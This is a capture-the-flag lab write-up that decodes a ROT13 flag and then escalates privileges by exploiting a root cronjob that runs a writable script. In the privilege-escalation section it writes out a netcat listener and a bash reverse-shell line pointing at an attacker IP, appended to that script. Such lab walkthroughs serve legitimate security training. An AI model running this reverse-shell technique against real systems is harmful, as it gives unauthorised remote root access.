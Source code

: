 when we read the file, it seems our [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) got a bit messed up! The hint says it got rotated. We can easily find an online [ROT](../../3%20-%20Tags/Hacking%20Concepts/ROT.md) decrypter. It turns out its rot -13.

<span style="color: rgb(45, 194, 107);">**flag{n0wits33msn0rm4l}**</span>

# Privilege Escalation

Now we can do [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md), we check crontabs we see there's a cronjob we can replace with a [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh

```

if we cat it , we can read it will run as root .

## Reverse shell

### Netcat 

Time to [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) this! I start with setting up my [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener and then I add a [Bash](../../3%20-%20Tags/Hacking%20Concepts/Bash.md) [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) (from pentestmonkeys) to the cronjob file:

```Kali
nc -lvnp 1234         
listening on [any] 1234 ..
```

```
boring@kral4-PC:/var/www$ echo "bash -i >& /dev/tcp/10.8.162.183:1234 0>&1" >> .mysecretcronjob.sh
```

and we cat the root flag.

